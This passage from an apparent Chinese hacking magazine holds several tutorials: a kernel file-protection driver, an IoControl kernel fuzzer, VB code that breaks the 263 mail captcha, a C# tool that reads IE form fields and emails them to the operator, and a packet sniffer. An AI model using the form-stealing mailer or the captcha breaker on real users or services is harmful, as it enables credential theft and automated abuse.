比如要保护的文件是 `C:\hacker.txt`，当用户想删除文件的时候，就会进入 `NoDeleteFile` 函数中，我们用 `IoGetCurrentIrpStackLocation` 函数得到当前 IRP 堆栈信息，然后判断 `IrpSp->Parameters.SetFile.FileInformationClass` 是否等于 `FileDispositionInformation`，如果等于则代表是在删除文件；如果等于 `FileRenameInformation` 则代表是在重命名文件，这时我们用 `RtlVolumeDeviceToDosName` 函数获取盘符，该函数原型如下：

```c
NTSTATUS
RtlVolumeDeviceToDosName(
  IN PVOID VolumeDeviceObject,
  OUT PUNICODE_STRING DosName
);
```

获取到盘符之后，再判断是否是 `C:`，如果是，再继续判断文件路径是否等于 `\hacker.txt`，如果等于，就代表是在删除需要保护的文件，这时我们就拦截。`NoDeleteFile` 函数代码如下：

```c
NTSTATUS NoDeleteFile(IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp)
{
    PATTACH_EXTENSION AttachExtension;
    PIO_STACK_LOCATION IrpSp;
    NTSTATUS status;
    UNICODE_STRING name;
    UNICODE_STRING dosname;
    UNICODE_STRING Mydosname;
    PFILE_OBJECT file;
    ...
    if (IrpSp->Parameters.SetFile.FileInformationClass == FileDispositionInformation) {
        if (RtlCompareUnicodeString(&dosname, &Mydosname, TRUE) == 0) {
            ...
        }
    }
}
```

```c
// 比较操作的文件是否是 hacker.txt，如果是，那么设置 IRP 为拒绝
if (RtlCompareUnicodeString(&name, &file->FileName, TRUE) == 0) {
    DbgPrint("%wZ\n", &dosname);
    DbgPrint("%wZ\n", &file->FileName);
    Irp->IoStatus.Status = STATUS_ACCESS_DENIED;
    Irp->IoStatus.Information = 0;
    status = Irp->IoStatus.Status;
    IoCompleteRequest(Irp, IO_NO_INCREMENT);
    return status;
}
return IoCallDriver(AttachExtension->VolumeDevice, Irp);


```

驱动编译好之后，执行效果如图 3 所示。Windows 资源管理器无法删除 `C:\hacker.txt`，然后我们打开冰刃，测试了用冰刃去删除 `C:\hacker.txt`，结果 `hacker.txt` 被删除了。这是为什么呢？通过我的研究发现，冰刃在删除文件的时候，发送了 `IRP_MJ_CLEANUP`，我们稍微修改一下代码，将 `IRP_MJ_CLEANUP` 也指向 `NoDeleteFile` 函数。
```c
pDriverObj->MajorFunction[IRP_MJ_SET_INFORMATION] = NoDeleteFile;
pDriverObj->MajorFunction[IRP_MJ_CLEANUP] = NoDeleteFile;


```

然后再测试一下冰刃，顺便一起测试最新版的 XueTr，这时就会发现，用冰刃和 XueTr 右键菜单中的“删除”命令，和“强制删除”命令都无法删除我们保护的文件，如图 4、图 5 所示。
经过进一步的测试，狙剑、最新版的 360 文件粉碎机都依然无法删除我们需要保护的文件。

（编控提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC  
关键词：内核漏洞、IoControlFuzzer

## 自己开发内核漏洞挖掘工具 IoControlFuzzer
文/图 shineast

## 内核漏洞挖掘的心态

漏洞挖掘过程中，不仅需要大量的时间、精力、知识、经验，更需要的是心态。事实上，漏洞挖掘的结果大多会以失败告终。而成功只会留给那些技术精湛，且具备良好心态的黑客。那么要挖掘漏洞，应具备怎样的心态呢？这里笔者仅给出个人的看法，作为一个高素质的漏洞挖掘黑客，至少应具备以下心态。

- 举一反三：发现一种问题后，能够想到更多类似的问题，从而发现其他漏洞的存在。
- 耐心细致：耐心细致，不遗不漏，尽可能发现问题，而不会与漏洞失之交臂。
- 锲而不舍：问题总是客观存在的，只有坚持不懈，才有可能取得成功。
- 行成于思：业精于勤，做事成功是因为多思考，失败是由于不经心。
- 善于总结：温故而知新，不断地积累，才能不断地提高。

## 内核漏洞挖掘的思路

漏洞挖掘有两种方式，一种是工具挖掘，另一种是手工挖掘。无论哪种方式，都需要有漏洞经验作为基础。进行漏洞挖掘，首先要有一个切入点。笔者想到的几个切入点如下。

- 内核 API 函数：内核 API 函数提供给 Ring3 调用，实现功能。这些函数接收 Ring3 传入参数，处理参数时若存在问题，很可能成为内核漏洞，例如 SSDT、Shadow SSDT 等。
- Hook API 的代码：很多安全软件会对内核 API 进行 Hook/Inline Hook，参数处理不当可能出现内核漏洞。
- 网络协议处理的内核代码：一些协议处理位于 SYSTEM 进程或内核模块中，可通过网络协议 Fuzz 挖掘漏洞。
- IoControl：该类型漏洞较多，可作为重点方向；IoControl 作为 Ring0/Ring3 交互方式，可能存在代码编程或内部逻辑问题。

那么如何挖掘这种类型的漏洞呢？首先我们来看 IoControl 过程中 Ring3 使用的一个重要函数，即 `DeviceIoControl` 函数。

```c
BOOL DeviceIoControl(
    HANDLE hDevice,            // 设备句柄
    DWORD dwIoControlCode,     // Io 控制号
    LPVOID lpInBuffer,         // 输入缓冲区指针
    DWORD nInBufferSize,       // 输入缓冲区字节数
    LPVOID lpOutBuffer,        // 输出缓冲区指针
    DWORD nOutBufferSize,      // 输出缓冲区字节数
    LPDWORD lpBytesReturned,   // 返回输出字节数
    LPOVERLAPPED lpOverlapped  // 异步调用时指向 OVERLAPPED 指针
);


```

该函数共有 8 个参数。正常情况下，`DeviceIoControl` 函数参数由用户程序指定，驱动中也需考虑功能实现。对于畸形参数和处理逻辑缺陷方面的安全问题不够重视时，可通过构造畸形参数来 Fuzz 驱动程序处理过程是否存在漏洞，称之为 “IoControl Fuzz”。

关于 IoControl Fuzz，目前笔者想到两种方法。

### 1. IoControl MITM（Man-in-the-Middle）Fuzz

这种方法类似于“中间人攻击”。其实就是在内核 Hook `NtDeviceIoControlFile` 函数，当识别到 IoControl 的对象为要 Fuzz 的对象时，获取该函数调用的参数，并按照预先的 Fuzz 策略对参数或参数指向的缓冲区数据进行篡改，然后将篡改后的参数传递给原始的 `NtDeviceIoControlFile` 函数，如图 1 所示。
图 1

如果发送给 `NtDeviceIoControlFile` 函数畸形的参数和数据后，发生了内核崩溃或蓝屏，往往预示着该驱动程序可能存在内核漏洞。进行后续的手动分析后，不难得出结论。

### 2. IoControl Driver Fuzz

上面提到“中间人”方式的 Fuzz，虽然比较巧妙，但多数情况下，难以覆盖某驱动程序所有的 IoControlCode。就算能够覆盖所有的 IoControlCode，但是这种 Fuzz 的过程只是“一次性”的，不够全面。

为了能够对驱动程序中某个 IoControlCode 做全面的 Fuzz，我们需要对 `DeviceIoControl` 函数的每个参数都进行畸形化。每个参数值可以畸形出很多不同的参数值，然后各个参数进行组合。那么完成一次全面的 Fuzz，要调用很多次 `DeviceIoControl` 函数。因此本文将这种 Fuzz 方法称为“IoControl Driver Fuzz”，针对的就是某个驱动，进行全面的 Fuzz。

以上我们讨论了内核漏洞挖掘的几种思路。作为初学者，我们应该首先完全掌握 IoControl Fuzz 的漏洞挖掘技术。因此我们将重点关注这种思路下的内核漏洞挖掘，通过挖掘工具的开发，揭示该思路的具体细节。

## 现有的内核漏洞挖掘工具

工欲善其事，必先利其器。虽然我们已经有了大概的 IoControl Fuzz 思路，但是要开发这样一个漏洞挖掘工具，首先应该调研一下，这方面是否已经有前人做过。

果不其然，笔者查到俄罗斯莫斯科有一家公司（安全研究实验室）eSage lab（http://www.esagelab.com），其网站上有一个开源工具，叫做“IOCTL Fuzzer”，如图 2 所示。
图 2

“IOCTL Fuzzer”是一个命令行式的 Windows 内核驱动挖掘工具。以下是该网站上对该工具的介绍。

- IRP filtering by process name, driver name, device name, or I/O Control code
- IRP fuzzing
- monitoring mode
- logging output to console and/or file

While processing IRPs, the fuzzer will spoof those IRPs conforming to conditions specified in the configuration file. A spoofed IRP is identical to the original IRP in all respects except the input data, which is changed to randomly generated fuzz.

可以看出，该工具所采用的 Fuzz 方法，正是我们前面提到的“IoControl MITM（Man-in-the-Middle）Fuzz”方法，即 IoControl 中间人 Fuzz。

该工具的独特之处是使用了 XML 配置文件，如图 3 所示。

```xml
<?xml version="1.0" encoding="windows-1251"?>
<cfg>
  <log_file>C:\tools\log.txt</log_file>
  <hex_dump>true</hex_dump>
  <log_request>true</log_request>
  <time_select>...</time_select>
  <fuzz_select>...</fuzz_select>
  <drivers>
    <entry>...</entry>
  </drivers>
  <devices>
    <entry>...</entry>
  </devices>
  <ioctls>
    <entry>...</entry>
  </ioctls>
  <processes>
    <entry>...</entry>
  </processes>
  <delay>...</delay>
</cfg>


```

图 3

通过 XML 来配置 Fuzz 对象和 Fuzz 策略虽然简单，但是不够灵活，每次改变 Fuzz 对象和 Fuzz 策略，需要重启 Fuzz 程序，实际使用可能不太方便。而且 Fuzz 策略不够细致，可能会有所遗漏。鉴于此，笔者依然决定自己开发一个能够实现前面提到的两种 IoControl Fuzz 思路的内核漏洞挖掘工具。

## 自己开发内核漏洞挖掘工具

笔者开发了一个带有界面的 IoControl Fuzz 工具，利用此工具能够进行前面提到的 IoControl MITM Fuzz 和 IoControl Driver Fuzz。该工具的实现代码请到黑防官方网站下载，这里仅给出该工具中这两种 Fuzz 的关键概念和概要设计。

### 1. Fuzz 对象、Fuzz 策略、Fuzz 项

首先提出几个概念：Fuzz 对象、Fuzz 策略、Fuzz 项。

Fuzz 对象——是指被 fuzz 的对象，或触发 fuzz 的条件。  
Fuzz 策略——是指针对 fuzz 对象，fuzz 过程中对参数和数据畸形化的方案。  
Fuzz 项——Fuzz 对象和 Fuzz 策略合起来，称为一个 Fuzz 项。

对于我们的 fuzz 程序来说，所有的 fuzz 项就是其输入。fuzz 程序应该支持多个 fuzz 项同时工作，而且还能够灵活地增、删、改这些 fuzz 项的内容，不必重启 fuzz 引擎。

### 2. IoControl MITM Fuzz

IoControl MITM（Man-in-the-Middle）Fuzz 是以中间人的方式，在识别到 Fuzz 对象后，在调用原始 `NtDeviceIoControlFile` 函数前，按照 Fuzz 策略对参数和数据进行畸形化，并调用原始 `NtDeviceIoControlFile` 函数的过程，如图 4 所示。
IoControl MITM Fuzz 的 Fuzz 对象可以由以下字段共同指定：

- 进程 pid 或进程路径；
- 设备名称；
- IoControlCode。

其中任何一个字段为空，表示匹配所有。例如，IoControlCode 为空，则表示某进程发至某设备的所有 IoControlCode 都会被 Fuzz。IoControl MITM Fuzz 的 Fuzz 策略，主要包括对输入地址、输入数据、输入长度、输出地址、输出长度的畸形化方案。

输入地址的畸形化方案如下：

- 不变；
- 随机；
- 非法地址；
- 合法 Ring3 地址；
- 合法 Ring0 地址。

输入数据的畸形化方案如下：

- 不变；
- 随机；
- Byte 填充；
- Word 填充；
- Dword 填充。

输入长度的畸形化方案如下：

- 不变；
- 随机；
- 增加一定长度；
- 减小一定长度。

输出地址的畸形化方案如下：

- 不变；
- 随机；
- 非法地址；
- 合法 Ring3 地址；
- 合法 Ring0 地址。

输出长度的畸形化方案如下：

- 不变；
- 随机；
- 增加一定长度；
- 减小一定长度。

### 3. IoControl Driver Fuzz

IoControl Driver Fuzz 是对 Fuzz 对象（驱动设备）主动发送一系列 IoControl，并对参数和数据按照 Fuzz 策略分别进行畸形化并组合成一组参数，调用 `DeviceIoControl` 进行 Fuzz 的过程，如图 5 所示。
IoControl Driver Fuzz 的 Fuzz 对象可以由以下字段共同指定：

- 设备对象或设备名称；
- IoControlCode。

IoControl Driver Fuzz 的 Fuzz 策略，根据 IoControlCode 中 Method 值的不同，有以下两种情况：

- IoControlCode 中 `Method != METHOD_NEITHER`：输入输出都有系统保护，篡改地址没有意义。因此需要 Fuzz：输入数据、输入长度、输出长度。
- IoControlCode 中 `Method == METHOD_NEITHER`：驱动可能直接访问输入输出地址，而没有探测是否可读写。因此需要 Fuzz：输入地址、输入数据、输入长度、输出地址、输出长度。

输入地址的畸形化方案如下：

- 随机；
- 非法地址；
- 合法 Ring3 地址；
- 合法 Ring0 地址；
- 固定地址。

输入长度的畸形化方案如下：

- 随机；
- 固定。

输入数据的畸形化方案如下：

- 随机；
- Byte 填充；
- Word 填充；
- Dword 填充。

输出地址的畸形化方案如下：

- 随机；
- 非法地址；
- 合法 Ring3 地址；
- 合法 Ring0 地址；
- 固定地址。

输出长度的畸形化方案如下：

- 随机；
- 固定。

### 4. MyIoControl Fuzzer 界面

本 Fuzz 工具将两种 Fuzz 方法实现在同一个对话框中。如图 6 所示，左侧上方显示当前进程列表，左侧下方显示驱动对象的树状结构，右侧上方能够监视系统中的 `DeviceIoControl` 调用，右侧中间便是 IoControl MITM Fuzz 的 Fuzz 项列表，右侧下方是 IoControl Driver Fuzz 的 Fuzz 项。

通过该工具，在 IoControl MITM Fuzz 列表中可以增、删、改 Fuzz 项。单击右侧中间的“+”按钮，可以弹出如图 7 所示的对话框，来添加 Fuzz 对象和 Fuzz 策略。
相应地，在 IoControl Driver Fuzz 列表中，也可以增、删、改 Fuzz 项。单击右侧下方的“+”按钮，可以弹出如图 8 所示的对话框，来添加 Fuzz 对象，而 Fuzz 策略由程序内部 Fuzz 逻辑而定。
### 5. 内核漏洞挖掘实战

既然自己的 IoControl Fuzz 漏洞挖掘工具已经开发出来了，是骡子是马得拉出来溜溜，证明一下这种漏洞挖掘思路是否可行。通过笔者一段时间对 Windows 系统、安全软件、第三方驱动程序的撒网测试，借助于此挖掘工具，确实发现了很多漏洞。

这里我们选择一些已经秘密上报给厂商，并且厂商已经修补完成，同意在教学研究场合下公布的漏洞。这些漏洞的细节请参考本期《黑客防线》的另外两篇文章（《超级巡警 v4 Build0316 ASTDriver.sys 本地特权提升漏洞》和《东方微点主动防御 1.2.10581.0278 Mp110013.sys 本地特权提升漏洞》）。

> （编辑提醒：本文涉及的代码可以到墨防官方网站下载）

前置知识：VB

关键词：VB、验证码
## VB 识别背景干扰色的验证码

文/图　李劼杰

之前的文章中为朋友们介绍了简单规则验证码的识别，采用逐行扫描有用像素的方法。然而更多情况下，验证码图片的背景都不是纯色的，程序员会在图片背景中添加一些干扰像素。本文介绍 VB 识别背景有干扰像素的验证码，以 263 手机邮件系统的验证码为例（验证码地址为：http://sms.263.net/web/image.jsp），如图 1 所示。
图 1　263 手机邮件系统验证码

## 分析验证码

- 它的大小为 60 像素×20 像素，由 4 个数字组成；
- 数字的颜色偏深，背景色相对浅；
- 4 个数字的位置是固定的（可将图片放大观察）；
- 采用 VB 坐标系统，(0,0) 为原点，纵坐标范围 3～15，4 个数字横坐标分别位于：7～15、20～28、33～41、45～53。

这里之所以精确得到数字的位置，是为了减少干扰，减少程序中判断和循环的次数，提高效率和准确度。

在 VB 中，我们分析颜色的 RGB 值，可以知道：颜色越深，3 个颜色的值越小；颜色越浅，3 个颜色的值越大。经过采样分析，浅色背景的 RGB 值集中在 120 以上，于是我们采用判断颜色 RGB 值的方法，可以将背景的干扰像素去除掉。

去除大部分干扰像素后，我们不能采用逐行扫描有用像素的方法，因为除噪工作并不一定彻底，残余的孤立干扰像素会影响程序判断的准确性。本例中，我们将去掉干扰像素后的有用像素数据写入文件中，识别时对照数据，匹配正确一定比例就认定成功。比如，例子中一个字符占 9×13=117 个点，只要超过 115 个点匹配文件中的数据，就认定是这个字符匹配成功。

## 编码实现

程序窗体的基本布局如图 2 所示。
图 2　窗体的基本布局

所添加的 5 个按钮如表 1 所示。

| Name | Caption |
|---|---|
| CmdDown | 下载图片 |
| CmdNoise | 除杂点并转黑白 |
| CmdOneChar | 学习识别单个字符 |
| CmdWriteData | 写入数据文件 |
| CmdResult | 识别验证码 |

表 1　按钮名称及说明

3 个 PictureBox 从上至下分别是：Picture1，Picture2，Picture3。需要将它们的 `AutoRedraw` 属性设置为 `True`。同时将 `ScaleMode` 属性设置为 `3-Pixel`，以便使用像素作为长度单位度量。此外，添加一个 Microsoft Internet Transfer 控件，用于下载验证码，Name 默认为 Inet1。添加一个用于显示识别结果的 Label，Name 设置为 lblResult。一个用于输入字符的 TextBox，Name 设置为 TxtChar。

主窗体中的代码如下所示，笔者大致按执行先后顺序排列。

```vb
Option Explicit

Private Sub Form_Load()
    '窗体载入时将所有 PictureBox 统一到验证码的大小
    Picture1.AutoRedraw = True
    Picture2.AutoRedraw = True
    Picture3.AutoRedraw = True
    Picture2.Height = Picture1.Height
    Picture2.Width = Picture1.Width
    Picture3.Height = Picture1.Height
    Picture3.Width = Picture1.Width
End Sub

Private Sub CmdDown_Click()
    CmdDown.Enabled = False
    '...后续代码...
    picBytes = Inet1.OpenURL("http://sms.263.net/web/image.jsp", icByteArray)
    While Inet1.StillExecuting
        DoEvents
    Wend

    '将图片数据写入 Test.bmp 文件
    Open App.Path & "\test.bmp" For Binary As #1
    Put #1, , picBytes
    Close #1

    '将 Test.bmp 载入到 Picture1 中
    Picture1.Picture = LoadPicture(App.Path & "\Test.bmp")
    CmdDown.Enabled = True
End Sub

Private Sub CmdNoise_Click()
    Picture2.Cls
    Dim X As Integer
    Dim Y As Integer
    Dim Ret

    '这里扫描了整张图片，并将其转为黑白
    For Y = 0 To Picture1.ScaleHeight - 1
        For X = 0 To Picture1.ScaleWidth - 1
            '将16进制颜色转换为RGB值，保存数组Ret中
            Ret = ColorRGB(Picture1.Point(X, Y))
            'RGB值中任意一个小于120，都将这个点设置为黑色
            If Ret(0) < 120 Or Ret(1) < 120 Or Ret(2) < 120 Then Picture2.PSet (X, Y), vbBlack
        Next X
    Next Y
End Sub

Private Sub CmdOneChar_Click()
    Picture3.Cls
    Dim X As Integer
    Dim Y As Integer
    Dim Ret

    '此处只将第一个字符转为黑白
    For Y = 3 To 15
        For X = 7 To 15
            Ret = ColorRGB(Picture1.Point(X, Y))
            If Ret(0) < 120 Or Ret(1) < 120 Or Ret(2) < 120 Then Picture3.PSet (X, Y), vbBlack
        Next X
    Next Y
End Sub

Private Sub CmdWriteData_Click()
    Picture3.Cls
    Dim X As Integer
    Dim Y As Integer
    Dim Ret

    '将第一个字符转为黑白
    For Y = 3 To 15
        For X = 7 To 15
            Ret = ColorRGB(Picture1.Point(X, Y))
            If Ret(0) < 120 Or Ret(1) < 120 Or Ret(2) < 120 Then Picture3.PSet (X, Y), vbBlack
        Next X
    Next Y

    '将字符数据写入文件中
    Open App.Path & "\Data\" & TxtChar & ".ini" For Output As #1
    Print #1, "[CharData]"
    For Y = 3 To 15
        For X = 7 To 15
            '如果不是白色，就写入值为"1"
            If Picture3.Point(X, Y) <> vbWhite Then
                Print #1, X - 7 & "_" & Y - 3 & "=1"
            End If
        Next X
    Next Y
    Close #1
End Sub

Private Sub CmdResult_Click()
    ...
    LblResult.Caption = "识别结果：" & GetOneChar(7, 15) & _
        GetOneChar(20, 28) & GetOneChar(33, 41) & GetOneChar(45, 53)
End Sub
```

上述代码中，函数 `ColorRGB` 用于将 16 进制颜色转换为 RGB 值，并返回到一个数组中。新建一个标准模块 `ModuleGetRGB`，写入下面的代码：

```vb
Public Function ColorRGB(Color As Long) As Byte()
    Const ByN As Integer = 256
    Const ByN2 As Long = 65536
    Dim A(2) As Byte
    A(0) = (Color Mod ByN)
    A(1) = ((Color Mod ByN2) \ ByN)
    A(2) = (Color \ ByN2)
    ColorRGB = A
End Function
```

此外，识别验证码的函数为 `GetOneChar`，它有两个参数，起始 X 坐标和结束 X 坐标。新建一个标准模块 `ModuleGetOneChar`，写入如下代码：

```vb
Option Explicit

Public Function GetOneChar(ByVal Left, ByVal Right) As Integer
    Dim X As Integer
    Dim Y As Integer
    Dim Ret
    Dim RightCount As Integer
    Dim RateMax As Integer
    Dim FileNo As Integer

    'FileNo 从 0 循环到 9
    For FileNo = 0 To 9
        For Y = 3 To 15
            For X = Left To Right
                Ret = ColorRGB(MainForm.Picture1.Point(X, Y))
                If Ret(0) < 120 Or Ret(1) < 120 Or Ret(2) < 120 Then
                    '如果是一个有用像素点，并且文件中的数据为1，那么RightCount增加1
                    If GetValueFromIni(App.Path & "\Data\" & FileNo & ".ini", "CharData", X - Left & "_" & Y - 3) = "1" Then
                        RightCount = RightCount + 1
                    End If
                ElseIf GetValueFromIni(App.Path & "\Data\" & FileNo & ".ini", "CharData", X - Left & "_" & Y - 3) = "" Then
                    RightCount = RightCount + 1
                End If
            Next X
        Next Y

        '117个点中有超过114个匹配，则匹配结束
        If RightCount > 114 Then
            GetOneChar = FileNo
            Exit Function
        End If

        '否则选择匹配数量最多的那个字符
        If RightCount > RateMax Then GetOneChar = FileNo
        RateMax = RightCount
        RightCount = 0
    Next FileNo

    Dim KeyPointCount As Integer
    '若匹配最终结果是0，还需要单独判断是否是8
    If GetOneChar = 0 Then
        '扫描第9行
        For X = Left + 2 To Left + 5
            Ret = ColorRGB(MainForm.Picture1.Point(X, 8))
            If Ret(0) < 120 Or Ret(1) < 120 Or Ret(2) < 120 Then
                KeyPointCount = KeyPointCount + 1
            End If
        Next X
    End If
End Function
```

```vb
End If
Next X
' 扫描第10行
For X = Left + 2 To Left + 5
    Ret = ColorRGB(MainForm.Picture1.Point(X, 9))
    If Ret(0) < 120 Or Ret(1) < 120 Or Ret(2) < 120 Then
        KeyPointCount = KeyPointCount + 1
    End If
Next X
If KeyPointCount > 6 Then GetOneChar = 8: Exit Function
...
' 若匹配结果是 8，单独判断是不是 0/3
If GetOneChar = 8 Then
    KeyPointCount = 0
    ' 扫描第 9 行/第 10 行、Left 列、Left+1 列
    ...
End If
...
If KeyPointCount < 6 Then GetOneChar = 3: Exit Function
```

```vb
KeyPointCount = KeyPointCount + 1
End If
Next Y
' 扫描第 Left+1 列
For Y = 3 To 15
    Ret = ColorRGB(MainForm.Picture1.Point(Left + 1, Y))
    If Ret(0) < 120 Or Ret(1) < 120 Or Ret(2) < 120 Then
        KeyPointCount = KeyPointCount + 1
    End If
Next Y
If KeyPointCount > 10 Then GetOneChar = 8: Exit Function
End If
End Function
```

以上代码中，我们对一些容易误判的字符进行了单独处理，例如 0、8 容易误判。那么在第一次匹配后，再次进行筛选，扫描并统计某几列或几行的有用像素，最终确定是哪一个字符。

```vb
' 读取 INI 值
Public Declare Function GetPrivateProfileString Lib "kernel32" Alias "GetPrivateProfileStringA" (...) As Long

' 自定义函数，读取配置信息
Public Function GetValueFromIni(ByVal FileName As String, ByVal AppName As String, ByVal KeyName As String) As String
    Dim Buff As String
    Buff = Space(100)
    GetPrivateProfileString AppName, KeyName, vbNullString, Buff, 100, FileName
    GetValueFromIni = Left(Buff, InStr(Buff, Chr(0)) - 1)
End Function


```

至此代码编写结束，运行程序，如图 3 所示。
图 3　程序运行效果

## 总结

识别背景有干扰色的规则验证码，可以采用以下基本思路：首先找到文字所在的具体区域，然后将彩色图片转为黑白，将文字中有用像素的坐标写入到文件中用于匹配，将验证码中的所有字符依次跟数据文件进行比对。

由于存在干扰像素，同时有用的像素偶尔也未能转换为黑色，程序目前识别率在 80%～90% 之间。为了增大识别率，需要进一步修正字符数据，或对容易混淆的几个字符进行逐行扫描，单独进行区分。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：C#
- 关键词：C#、嗅探、和平使者

# 网络嗅探器“和平使者”开发手记
文/图 暗夜舞者

网络嗅探器，网络方面的专业利器，在黑白两道都是高级别的工具，主要作用就是通过端口监听取得通过此端口的数据，而我们今天要开发的工具功能与此类似，只不过目的更明显并且不用通过端口监听。虽然没有嗅探器专业，但是体现了另外一种思路。界面如图 1 所示。
图 1

这个软件的工作原理是：通过进程罗列查找出符合预定义 URL 的 IE（目前只支持 IE 浏览器，有兴趣的朋友可以自行添加其他浏览器），取得此 IE 页面上名为 username 的控件的 value（当然，username 和 value 也是可以自行设置的，这里为了演示方便写成了固定值），最后通过 E-mail 的方式将 username 的 value 发送给操纵者。如果我们仿制“和平使者”为取得某个页面的用户名和密码，而邮箱设置为我们自己的 E-mail，它就会完成一个黑客软件应该做的事。

下面看看它的几个主要方法：

```csharp
string filename;
foreach (SHDocVw.InternetExplorer ie in shellWindows)
{
    filename = Path.GetFileNameWithoutExtension(ie.FullName).ToLower();

    // 如果当前的窗口类为 IE，则处理
    if (filename.Equals("iexplore"))
    {
        // 判断当前 IE 的地址栏是否就是预定义的地址
        if (ie.LocationURL.Equals(new Uri("C:/Documents and Settings/Administrator/Desktop/Noname1.html").AbsoluteUri))
        {
            flg = true;
            // 取得页面的 Document
            mshtml.HTMLDocumentClass doc = (mshtml.HTMLDocumentClass)ie.Document;
            // 遍历页面元素
            foreach (IHTMLElement ihe in doc.all)
            {
                // 目标：<input type="text" name="username" value="">
                if (ihe.tagName.ToLower().Equals("input"))
                {
                    if (item1.Equals(ihe.getAttribute("name", 0).ToString()))
                    {
                        temp1 = ihe.getAttribute("name", 0).ToString();
                        message[0] = ihe.getAttribute("name", 0).ToString();
                        b1 = true;
                    }
                    if (item2.Equals(ihe.getAttribute("value", 0).ToString()))
                    {
                        temp2 = ihe.getAttribute("value", 0).ToString();
                        message[1] = ihe.getAttribute("value", 0).ToString();
                        b2 = true;
                    }
                }
            }
        }
    }
}
```

```csharp
public void Monitor()
{
    // 控制获得的用户名数量
    bool b1 = false;
    bool b2 = false;

    // 得到进程列表，用来判断是否打开了 IE
    processes = System.Diagnostics.Process.GetProcesses();
    foreach (Process currentProcess in processes)
    {
        // 如果当前的进程是 IE，则处理
        if (currentProcess.ProcessName.ToLower() == "iexplore")
        {
            // 得到当前的窗口类列表
            shellWindows = new SHDocVw.ShellWindowsClass();
        }
    }
}
```

```csharp
if (b1 && b2)
{
    list.Add(message);
    ...
    break;
}
else
{
    if (flag)
    {
        // 当用户切换了当前页面时，发送 Mail
        SendMessage();
        timer1.Stop();
    }
}
```

```csharp
mail.BodyEncoding = Encoding.UTF8;
Mysmtp.Host = "192.168.0.253";
Mysmtp.Send(mail);
mail.Dispose();


```

这个没有什么好说的，就是配置一下邮箱的基本信息，将 List 中的数据写入邮件中发送回来。我们来看一下效果，我做了一个页面，就是一个 `<input type="text" name="username" value="test">`，如图 2 所示。
图 2

我们运行程序，一段时间后关闭 IE，看到邮件已经发送回来了，如图 3 所示。
图 3

和 IE 中的数据一样，这里只是给个演示，提供一个思路，还有很多需要完善的地方，感兴趣的朋友可以拓展一下，希望大家可以一起交流，共同提高。

Monitor 方法是 Timer 调用的方法，我们的 Timer 每隔 0.5s 就会调用一次用于记录目标控件的值，注释已经详细地写出了代码的用途。下面还有个发送邮件的方法：

```csharp
public void SendMessage()
{
    MailMessage mail = new MailMessage();
    SmtpClient Mysmtp = new SmtpClient();
    mail.From = new MailAddress("******@******.com");
    mail.To.Add("******@******.com");
    mail.Subject = "test";
    mail.SubjectEncoding = Encoding.UTF8;
    foreach (String[] temp in list)
    {
        mail.Body += temp[0] + "------" + temp[1] + "\n";
    }
}


```

- 前置知识：C#
- 关键词：C#、嗅探器

## 嗅探器开发手记
文/图 暗夜舞者

嗅探器，可以理解为一个安装在计算机上的窃听设备，它可以用来窃听计算机在网络上所产生的众多信息。可是，计算机直接传送的数据事实上是大量的二进制数据。因此，一个网络窃听程序必须也使用特定的网络协议来分解嗅探到的数据，嗅探器也就必须能够识别出那个协议对应的这个数据片断，只有这样才能够进行正确的解码。

嗅探器是网络的抓包工具，可以对网络中大量数据进行抓取，从而方便使用者对网络中用户的一些信息进行分析，所以通常被黑客运用于网络攻击。我们如果也能掌握网络嗅探器的原理和设计，可以将它运用于网络故障检测、网络状况的监视，还可以加强企业信息安全防护。

下面就来打造我们的嗅探器，新建一个 VC#.NET 工程，软件界面如图 1 所示。

这个程序我们要用到一个很重要的 Lib 文件，就是 SnifferLib.lib，此文件将随文奉上。

```csharp
// 取得计算机的所有端口，并以列表的形式显示出来：
IPAddress[] hosts = Dns.Resolve(Dns.GetHostName()).AddressList;


```
图 1

将取得的端口放到 m_PacketMonitors 数组中，然后就是最重要的一个事件：开始嗅探。

```csharp
private void OnToolBarClick(object sender, ToolBarButtonClickEventArgs e)
{
    if (e.Button == StopButton)
    {   // 停止监听所有的端口
        for (int i = 0; i < m_PacketMonitors.Length; i++)
        {
            m_PacketMonitors[i].Stop();
            HostMenu.MenuItems[i].Checked = false;
            MonitorMenuItem.MenuItems[i].Checked = false;
        }
        StatusBar.Text = "停止监测";
    }
    else if (e.Button == StartButton)
    {   // 开始监听所有的端口
        for (int i = 0; i < m_PacketMonitors.Length; i++)
        {
            try { m_PacketMonitors[i].Start(); }
            catch (Exception ex)
            {
                MessageBox.Show(this, "界面出现一个错误" + ...);
            }
            HostMenu.MenuItems[i].Checked = true;
            MonitorMenuItem.MenuItems[i].Checked = true;
        }
        StatusBar.Text = "检测所有端口";
    }
    else if (e.Button == ClearButton)
    {   // 清除列表
        ...
    }
}
```

```csharp
PacketList.Items.Clear();
m_Packets.Clear();
StatusBar.Text = "清空列表";
}
else if (e.Button == AboutButton)
{
    AboutForm af = new AboutForm();
    af.ShowDialog(this);
}
```

可以看出，程序是循环遍历并且监听各个端口。SOCKET 套接字以及大多数方法我已经封装在 Lib 文件中，所以使用的时候可以很方便地只用一个 `Start()` 就可以开启监听。

当我们单击列表中的一个条目时，相应的详细信息就会显示在下面的两个列表中，其中的方法为：

```csharp
private void PacketList_Click(object sender, EventArgs e)
{
    ListView l = (ListView)sender;
    m_Packet = (Packet)m_Packets[l.SelectedItems[0].Index];
    RawText.Text = m_Packet.ToString();
    InfoList.Items.Clear();

    InfoList.Items.Add(new ListViewItem(new string[] { "开始时间", m_Packet.Time.ToString() }));
    InfoList.Items.Add(new ListViewItem(new string[] { "源端口", m_Packet.Source }));
    InfoList.Items.Add(new ListViewItem(new string[] { "目的端口", m_Packet.Destination }));
    InfoList.Items.Add(new ListViewItem(new string[] { "协议类型", m_Packet.Protocol.ToString() }));
    InfoList.Items.Add(new ListViewItem(new string[] { "生存时间", m_Packet.TimeToLive.ToString() }));
    InfoList.Items.Add(new ListViewItem(new string[] { "版本信息", m_Packet.Version.ToString() }));
    InfoList.Items.Add(new ListViewItem(new string[] { "报头大小", m_Packet.HeaderLength.ToString() }));
    InfoList.Items.Add(new ListViewItem(new string[] { "报文总长", m_Packet.TotalLength.ToString() }));
    InfoList.Items.Add(new ListViewItem(new string[] { "优先级别", m_Packet.Precedence.ToString() }));
    InfoList.Items.Add(new ListViewItem(new string[] { "延迟", m_Packet.Delay.ToString() }));
